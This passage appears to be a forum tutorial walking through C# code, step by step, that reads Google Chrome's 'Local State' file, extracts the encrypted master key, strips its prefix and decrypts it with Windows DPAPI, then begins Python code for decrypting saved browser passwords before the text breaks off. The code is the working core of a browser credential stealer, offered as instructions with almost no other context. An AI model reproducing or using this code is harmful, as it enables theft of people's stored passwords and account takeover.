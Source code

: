             }

        }

        catch (Exception ex)

        {

            Console.WriteLine($"Error: {ex.Message}");

        }



        Console.ReadKey();

    }

    }

[/CODE]



[CODE]

    string localStatePath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), @"Google\Chrome\User Data\Local State");
[/CODE] Specifies the path to the file with the key
[CODE]

    string localStateData = File.ReadAllText(localStatePath); 
[/CODE] Reads data from a file
[CODE]
    
    dynamic json = JObject.Parse(localStateData); 
[/CODE] Converts file contents to json
[CODE]

    string encryptedKeyBase64 = json.os_crypt.encrypted_key; 
[/CODE] Searches for a key by encrypted_key
[CODE]

    byte[] encryptedKey = Convert.FromBase64String(encryptedKeyBase64); 
[/CODE] Decodes a key from base64 into bytes
[CODE]

    byte[] trimmedKey = encryptedKey.Skip(5).ToArray(); 
[/CODE] Removes first 5 bytes
[CODE]

    byte[] decryptedKey = ProtectedData.Unprotect(trimmedKey, null, DataProtectionScope.CurrentUser);
    string decryptedKeyBase64 = Convert.ToBase64String(decryptedKey);
    Console.WriteLine($"Decrypted Key (Base64): {decryptedKeyBase64}"); 
 [/CODE] Decrypts via DPAPI using the System.Security.Cryptography library
 
Now let's look at the code for decrypting the password using the key obtained earlier:

[CODE=python]

    import sqlite3
